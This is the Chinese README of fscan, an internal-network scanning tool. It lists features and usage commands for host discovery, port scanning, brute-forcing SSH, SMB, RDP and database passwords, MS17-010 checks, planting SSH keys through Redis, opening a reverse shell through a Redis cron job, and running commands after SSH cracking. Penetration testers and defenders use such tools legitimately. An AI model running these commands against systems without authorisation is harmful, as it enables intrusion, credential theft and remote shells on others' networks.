 # fscan

# 简介
一款内网综合扫描工具，方便一键自动化、全方位漏扫扫描。   
支持主机存活探测、端口扫描、常见服务的爆破、ms17010、redis批量写公钥、计划任务反弹shell、读取win网卡信息、web指纹识别、web漏洞扫描、netbios探测、域控识别等功能。

## 主要功能
1.信息搜集:
* 存活探测(icmp)
* 端口扫描

2.爆破功能:
* 各类服务爆破(ssh、smb、rdp等)
* 数据库密码爆破(mysql、mssql、redis、psql等)  

3.系统信息、漏洞扫描:  
* netbios探测、域控识别  
* 获取目标网卡信息
* 高危漏洞扫描(ms17010等)  

4.Web探测功能:
* webtitle探测
* web指纹识别(常见cms、oa框架等)
* web漏洞扫描(weblogic、st2等,支持xray的poc)

5.漏洞利用:
* redis写公钥或写计划任务
* ssh命令执行

6.其他功能:
* 文件保存

## usege
简单用法
``` 
fscan.exe -h 192.168.1.1/24  (默认使用全部模块)
fscan.exe -h 192.168.1.1/16  (B段扫描)
```

其他用法
```
fscan.exe -h 192.168.1.1/24 -np -no -nopoc(跳过存活检测 、不保存文件、跳过web poc扫描)
fscan.exe -h 192.168.1.1/24 -rf id_rsa.pub (redis 写公钥)
fscan.exe -h 192.168.1.1/24 -rs 192.168.1.1:6666 (redis 计划任务反弹shell)
fscan.exe -h 192.168.1.1/24 -c whoami (ssh 爆破成功后，命令执行)
fscan.exe -h 192.168.1.1/24 -m ssh -p 2222 (指定模块ssh和端口)
fscan.exe -h 192.168.1.1/24 -pwdf pwd.txt -userf users.txt (加载指定文件的用户名、密码来进行爆破)
fscan.exe -h 192.168.1.1/24 -o /tmp/1.txt (指定扫描结果保存路径,默认保存在当前路径) 
fscan.exe -h 192.168.1.1/8  (A段的192.x.x.1和192.x.x.254,方便快速查看网段信息 )
fscan.exe -h 192.168.1.1/24 -m smb -pwd password (smb密码碰撞)
fscan.exe -h 192.168.1.1/24 -m ms17010 (指定模块)
fscan.exe -hf ip.txt  (以文件导入)
fscan.exe -u http://baidu.com -proxy 8080 (扫描单个url,并设置http代理 http://127.0.0.1:8080)
fscan.exe -h 192.168.1.1/24 -nobr -nopoc (不进行爆破,不扫Web poc,以减少流量)
fscan.exe -h 192.168.1.1/24 -pa 3389 (在原基础上,加入3389->rdp扫描)
```
编译命令
```
go build -ldflags="-s -w " -trimpath
```
